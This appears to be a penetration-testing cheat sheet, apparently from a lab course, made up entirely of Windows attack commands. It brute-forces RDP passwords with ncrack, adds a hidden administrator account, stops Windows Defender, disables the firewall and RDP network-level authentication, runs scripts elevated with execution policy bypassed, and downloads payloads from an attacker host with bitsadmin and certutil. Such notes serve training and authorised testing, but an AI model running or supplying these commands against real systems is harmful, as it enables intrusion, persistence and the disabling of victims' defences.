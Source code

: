 ### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /home/kali/Documents/crack/rockyou.txt  rdp://10.11.1.111
```

### Add user and enable RDP

```
# Add new user

net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Turn firewall off and enable RDP

sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

### Powershell sudo for Windows

```
$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'

powershell -ExecutionPolicy Bypass -File xyz.ps1
```

### Windows download with bitsadmin

```
bitsadmin /transfer mydownloadjob /download /priority normal http://<attacker10.11.1.111>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

### Windows download with certutil.exe

```
certutil.exe -urlcache -split -f "http://10.11.1.111/Powerless.bat" Powerless.bat
```
